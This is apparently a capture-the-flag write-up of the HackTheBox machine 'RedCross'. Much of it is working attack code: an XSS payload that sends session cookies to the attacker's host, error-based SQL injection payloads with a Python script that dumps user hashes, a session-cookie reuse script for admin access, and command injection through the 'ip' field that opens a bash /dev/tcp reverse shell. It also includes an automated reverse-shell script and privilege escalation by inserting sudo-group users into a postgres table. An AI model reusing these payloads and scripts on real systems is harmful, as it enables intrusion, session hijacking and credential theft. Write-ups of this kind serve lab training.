

RedCross was a crazy box. Really interesting and I learned a lot from it. It's a Medium Level Box from HackTheBox. It's OS is Linux. I started just enumerating the website, and found good things.

We did a SQLInjection to get some users hashes, to login on the admin interface, we can do that by cookies also. After that we got multiple ways to get reverse shell.

The privilege escalation I did trough SQL queries, but can also be done with BOF in iptctl, which one I'll do later.

Hope you enjoy it.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.113
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.113 on the browser, it is redirect to


So we add it on the /etc/hosts and try again


Looking at the source code we find a possible user, **penelope**


We see that it seems to be a php website, looking at how the url is structured.

Once we found a `intra` subdomain, is very useful if we try to bruteforce it to see if there are other subdomains in it

```sh
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://10.10.10.113 -H "Host: FUZZ.redcross.htb" --hw 28 --hc 400
```

We found `admin` and `intra`


Great.

We start a `gobuster` in it to enumerate the `intra` subdomain

```sh
gobuster dir -k -u https://intra.redcross.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,pdf -t 20
```


We perform another gobuster on the `documentation` folder

```sh
gobuster dir -k -u https://intra.redcross.htb/documentation -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,pdf -t 20
```


And we found an account-signup file in it. Which is very interesting.


Here we have two paths to get access to the box, I'll explain both, and try to automate both of them

## Path 1 - XSS

In the contact form, at **https://intra.redcross.htb/?page=contact**, if you try to enter script tags into the subject or the body, it spawns an error


The same thing does not happen if we try to poison the `contact` tag

```js
<script src="http://10.10.14.20:9090/cookie.js"></script>
```

And the payload

```js
function addTheImage() {
        var img = document.createElement('img');
        img.src = 'http://10.10.14.20:9090/' + document.cookie;
document.body.appendChild(img);
}

addTheImage();
```

Now we trigger it


And then, we get cookies!


`PHPSESSID=2kd6l8mmkv3n4rfsh2slcma8u6`


Now we just set it on the browser and get access to the `admin` panel


## Path 2 - Create a Login

First we need to create e valid login on the application


We get `guest:guest`


Get logged in as Guest


### SQLInjection

Now, if we try to put a `'` on the UserID, we will se that it will trigger a SQL Error. Seems that we have a SQLInjection on this box


Now, let's explore it

First, we must find a way to determine how the query is being mounted, based on the error message

We got a good post from [Netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) which will help us

We get a query test on this website for getting the version and testing it


```
SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)
```


And we get the version of the database, which is great.

Now we can start the extraction of data from it

```
1') AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -
```


Let's mount a script in python to automate it and retrieve all the info I need

So, we'll start with our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


sqli_redcross.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# SQLInjection to Retrieve User Hashes

import argparse
import requests
import sys
import urllib3
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# First, we need to create a user on the app, to get logged in and access the SQLInjection
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)

# Now let's exfiltrate it
def dataExfilDump(rhost):
    limit = 0
    columns = ['username','password']
    tables = ['users']
    while limit < 30:
        for table in tables:
            for column in columns:
                print("----")
                payload = urllib.parse.quote_plus("1') AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT %s FROM %s LIMIT %s,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -" %(column,table,limit))
                url = "https://intra.%s.htb:443/?o="%rhost + payload + "&page=app&page=app"
                exfil = r.get(url, cookies=r.cookies, proxies=proxies, verify=False, allow_redirects=True)
                if "Duplicate" in exfil.text:
                    index = exfil.text.find("DEBUG INFO")
                    data = exfil.text[index:index+128].split('\'')[1][:-1][1:]
                    print("[+] %s [+]!"%column)
                    print(data)
                    column = column[+1]
                else:
                    print("[+] Gooooot it !!! [+]")
                    return
            limit = limit +1

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-d', '--dump',choices=('True','False'), help='Chosse between True and False for DUMP auto - DEFAULT FALSE')
    args = parser.parse_args()

    global flag
    flag = args.dump == 'True'
    rhost = args.target

    '''Here we call the functions'''
    # Make the login request to get cookies
    login(rhost)
    # Test if flag is seted and starting the sqlinjection to retrieve data
    if flag:
        dataExfilDump(rhost)
        
if __name__ == '__main__':
    main()
```

Now we bruteforce the `charles` password and found it


The password is **cookiemonster**

### Charles Admin?!

Now we log in the app


If we try to access the `admin` page, we got an error


And be redirect to the login page.

However, if we take the cookie of guest or charles intra and set it as the PHPSESSID for admin, it works. We'll go to the intra site logged in as charles and get it


Now we set it


And, when we reload the page, we got access


The same technique works with the guest cookie, meaning I could have skipped the SQLi all together.

So, we will do a python script to get there, just getting the guest/guest and seeting it as cookie to access the admin page

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# Get access to admin page using guest cookies

import argparse
import requests
import sys
import urllib3
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# First, we need to create a user on the app, to get logged in and access the SQLInjection
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    global cookie
    cookie = r.cookies['PHPSESSID']

def adminPageCookie(rhost):
    # Ok, let's clean the cokies
    # First we just log in as guest
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, verify=False, proxies=proxies, allow_redirects=True)
    # Clean the cookies
    r.cookies.clear()
    # Now, set the cookie from the guest, to get the access!
    r.cookies.set('PHPSESSID', cookie, path='/', domain='admin.redcross.htb')
    # Now get on the page
    url = "https://admin.%s.htb/?page=cpanel" %rhost
    r.get(url, proxies=proxies, verify=False, allow_redirects=True)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    rhost = args.target

    '''Here we call the functions'''
    # Make the login request to get cookies
    login(rhost)
    adminPageCookie(rhost)


if __name__ == '__main__':
    main()
```

Great, now we have the proper access to the admin page with the guest cookies seted

# Penelope Shell

Now, we already have access to the admin page, we can start to get a reverse shell on this box

## Open Firewall

First thing to do is enable the firewall rule on the website


Now, we see new ports opened on the box


## Path 1: Haraka

We see the port 1025, we try to nc it


We look for exploits

```sh
searchsploit haraka
```


The only change we did on the exploit was on line 123, it was trying to connect on port 25, the correct is 1025 in this case.


Now, we execute and get a shell

```sh
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.14.20\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113
```


## Path 2: www-data

We can access the other panel of the admin page and see what we have there


We add a new user


We got credentials

**0x4rt3mis : xL0ohUnj**


We try ssh on the box

Got it


We are in a jail

For now, the only interesting thing I can find is in /home/public/src/iptctl.c


We can see the string "DEBUG: All checks passed… Executing iptables" and "Network access granted to %s\n". it looks like this program is being called when I submit anything to the page, obsvisously I'll not have access to the php source code to analyze it. But we can send it to burp and see how it's being used.


And on the Deny


```
ip=10.10.14.20&id=13&action=deny
```

We suppos that the page is executing a command in the ip parameter, a bash one, so, if we put a semicolon on the end we can execute other commands

Yep, we got it


Now let's test to our box with a reverse shell

```
ip=10.10.14.20%3bbash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.20/443+0>%261'&id=13&action=deny
```


Now, let's update our script to auto get this shell!!!


rev_www-data.py

```py
#!/usr/bin/python3
# Date: 2021-10-09
# Exploit Author: 0x4rt3mis
# Hack The Box - RedCross
# Get auto reverse shell

import argparse
import requests
import sys
import urllib3
import urllib
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
urllib3.disable_warnings()

'''Here come the Functions'''

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we need to create a user on the app, to get logged in and access the SQLInjection
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    global cookie
    cookie = r.cookies['PHPSESSID']
    print("[+] Login as guest successssss!!!!! [+]")
    print("[+] PHPSSESID Got !!!!!! [+]")

def adminPageCookie(rhost):
    # Ok, let's clean the cokies
    # First we just log in as guest
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, verify=False, proxies=proxies, allow_redirects=True)
    # Clean the cookies
    r.cookies.clear()
    # Now, set the cookie from the guest, to get the access!
    r.cookies.set('PHPSESSID', cookie, path='/', domain='admin.redcross.htb')
    # Now get on the page
    url = "https://admin.%s.htb/?page=cpanel" %rhost
    r.get(url, proxies=proxies, verify=False, allow_redirects=True)
    print("[+] Admin loged in with poison coooooookies !!!! [+]")
    
def getReverseShell(rhost, lhost, lport):
    print("[+] Now, let's get a reverse www-data shell !!!!!!! [+]")
    payload = ";bash -c 'bash -i >& /dev/tcp/'" + lhost + "'/'" + lport + "' 0>&1'"
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"ip": "%s" %payload, "action": "deny"}
    print("[+] Sheeeell Got !!!!! [+]")
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies, verify=False)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localhost', help='Local ip to receive the reverse shell', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Start the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Make the login request to get cookies
    login(rhost)
    # Become admin
    adminPageCookie(rhost)
    # Get www-data reverse shell
    getReverseShell(rhost, lhost, lport)

if __name__ == '__main__':
    main()
```

## Penelope Shell

We can get a penelope shell too on this box

First we need to find postgresql Creds

With few greps looking for password we found something interesting in `actions.php`

```sh
cat ./actions.php -n | grep password --color
```


We found a particular good function in it


It seems to have the power to add users on the system... Which is very interesting!

We connect on the `psql`

```sh
psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```


We found the structure of the passwd_table


So, we can add a user with the same id as penelope, and get it

We generate our password

```sh
openssl passwd -1 0x4rt3mis
```


`insert into passwd_table (username, passwd, gid, homedir) values ('pene0x4rt3mis', '$1$HW2gdUaa$x1.3nBELapjD3I4EMAvbU/', 1000, '/home/penelope');`


Now, we ssh in it


Got.

# Root Shell

Now, we can set it also to root user

## Sudo Group

We will create another user, this time with the sudoers group, which is 27:


`insert into passwd_table (username, passwd, gid, homedir) values ('root0x4rt3mis', '$1$HW2gdUaa$x1.3nBELapjD3I4EMAvbU/', 27, '/home/penelope');`


Now, ssh in it


We can also add an user with the root id, we have a lot of options here. I'll now show all of them.

## BOF in iptctl

We have another way to get it by BOF in iptctl.

We can explore it also. I'll not show it here now for a matter of time. I'll come back here in the future and update it.

# Source Code Analysis

We can also do some kind of static code analysis in this box.

## SQLInjection Detail

We could look for this SQLInjection on this box

We could start looking for every place where we have GET, POST or REQUEST.

```sh
grep -n -R -i '$_[GPR].*\[' .
```


We find few options.

Let's resume it more

```sh
grep -l -e "GET['o']" $(grep -l -e SELECT `grep -rl -e '$_[GPR].*\[' .`)
```


We got just one!

If we look on how the query to trigger the SQLInjection is built, we see a "o" parameter in the GET request


Sure, now we already know what to look for on the code, where this "o" variable are being mounted


We know that it's being triggered on this app.php file

We see on line 19 it looks to see if the AUTH is seted, if it's seted it continues to line 25, where see if the parameter O is seted, if is seted it is passed to the SELECT query. So, it's not being sanitized anywhere, what we put on the O variable, is going to be triggered on the mysql!


Great, we already know where is the injection point. And we can start playing with it.

We got a very good blog from [NetSpi](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) which explains how it works. And we see the payload to test the Error Based SQLInjection in MYSQL.

```
SELECT extractvalue(rand(),concat(0x3a,(select version())))
```

So we mount the query and after some tests, we got it

```
1')+AND+(SELECT+extractvalue(rand(),concat(0x3a,(select+version()))))--+-
```


After that I started to build my script to automate it.